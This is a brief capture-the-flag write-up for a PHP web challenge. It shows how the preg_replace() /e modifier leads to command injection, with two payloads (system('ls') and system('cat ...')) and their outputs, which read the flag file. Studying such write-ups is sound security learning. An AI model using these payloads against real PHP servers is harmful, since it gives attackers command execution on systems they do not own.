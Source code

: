 Name
----

Web: Exotic Attacks: PRO Replacer

Description
-----------

Get the flag from: [url]141.85.224.101:8001/[/url].

Score: 50

Vulnerability
-------------

Use of preg_replace() function in PHP 5.5 that leads to command injection

Exploit
-------

The server executes the `preg_replace()` function with unsanitized parameters from the user.

If you use the `/e` modifier at the end of the regex, the next of the command will be treated as PHP code. In this way you can execute shell commands.

**Payload 1**

Needle: `m/e`

Replacement: `system('ls')`

Haystack: `m`


Output: `index.php wRtu3ND38n8RNgez`

**Payload 2**

Needle: `m/e`

Replacement: `system('cat wRtu3ND38n8RNgez')`

Haystack: `m`


Output: the flag
